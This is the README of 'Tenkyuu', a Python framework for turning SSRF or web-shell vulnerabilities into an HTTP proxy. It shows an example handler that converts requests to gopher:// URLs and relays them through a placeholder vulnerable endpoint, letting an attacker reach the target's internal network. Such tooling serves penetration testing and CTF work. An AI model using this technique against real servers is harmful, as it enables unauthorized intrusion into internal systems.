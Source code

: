 # Tenkyuu

An framework to create HTTP Proxy through Web vulunerabilities (SSRF, WebShell, etc.) quickly. 

## Usage

Firstly, install the package from pypi. 

```bash
pip install tenkyuu
```

Then code your proxy rules. For example:

```python
from tenkyuu import Tenkyuu, internal_server_error
import requests

app = Tenkyuu(verbose = True)

def ssrf_proxy(req):
    # The req param is an object that contains the information of HTTP Request(s)

    # The req.gopherize() function will convert HTTP Request Packet 
    # to `gopher://...` protocol automatically
    gopherized_url = req.gopherize() 
    
    # Assume that the server has a ssrf vulunerale entrance
    # and supports gopher:// protocol, responsing with data 
    # in JSON format
    resp = requests.get("http://vulunerable.com/ssrf.php", params = {
        "url": gopherized_url
    }).json()

    if resp["status"] != "OK":
        return internal_server_error()

    return resp["data"]

if __name__ == "__main__":
    app.run(
        handler = ssrf_proxy,
        host = "127.0.0.1", 
        port = 8088
    )
```

Run the script and set your HTTP Proxy to `127.0.0.1:8088` in the application you will use.

## License

Apache License